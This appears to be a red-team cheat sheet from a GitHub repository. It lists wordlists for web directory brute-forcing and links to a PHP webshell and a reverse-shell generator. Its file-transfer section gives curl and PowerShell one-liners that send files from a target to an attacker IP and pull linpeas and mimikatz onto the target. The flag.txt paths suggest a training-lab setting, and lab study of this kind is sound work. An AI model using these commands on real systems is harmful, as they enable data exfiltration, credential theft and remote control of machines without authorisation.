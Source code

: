 # Red Team Cheat Sheet

---

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
$FilePath="C:\Users\Administrator\Desktop\flag.txt"; $Url="http://192.168.45.145/"; $client=New-Object System.Net.Http.HttpClient; $content=New-Object System.Net.Http.MultipartFormDataContent; $fileStream=[System.IO.File]::OpenRead($FilePath); $content.Add((New-Object System.Net.Http.StreamContent($fileStream)), "file", [System.IO.Path]::GetFileName($FilePath)); $client.PostAsync($Url, $content).Result.Content.ReadAsStringAsync().Result

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
https://raw.githubusercontent.com/voidexec/sec/main/webshells/shell.php
```